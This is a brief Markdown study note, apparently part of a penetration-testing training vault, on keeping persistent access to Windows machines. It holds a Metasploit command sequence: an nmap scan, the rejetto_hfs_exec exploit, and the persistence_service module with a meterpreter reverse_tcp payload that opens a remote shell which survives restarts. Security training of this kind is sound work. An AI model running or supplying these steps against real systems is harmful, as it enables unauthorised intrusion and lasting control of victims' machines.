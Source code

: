 ```yaml
---
up: "[[Windows Post Exploitation]]"
---
```


# Establishing Persistence on Windows

- Persitence consists of techniques that adversaries use to keep access to systems accros restarts, changed credentials and other interruptions
- Gaining an initial foothold is not enough, you need to maintain persistent access
- There are various post exploitation persistence modules

## Demonstration

```bash
> db_nmap -sV <ip>
> use exploit/windows/http/rejetto_hfs_exec
> run
m> sysinfo
m> getuid
m> ^Z
> use exploit/windows/local/persistence_service
> set payload windows/x64/meterpreter/reverse_tcp
# or
> set payload windows/meterpreter/reverse_tcp
> set SESSION <id>
> run
```
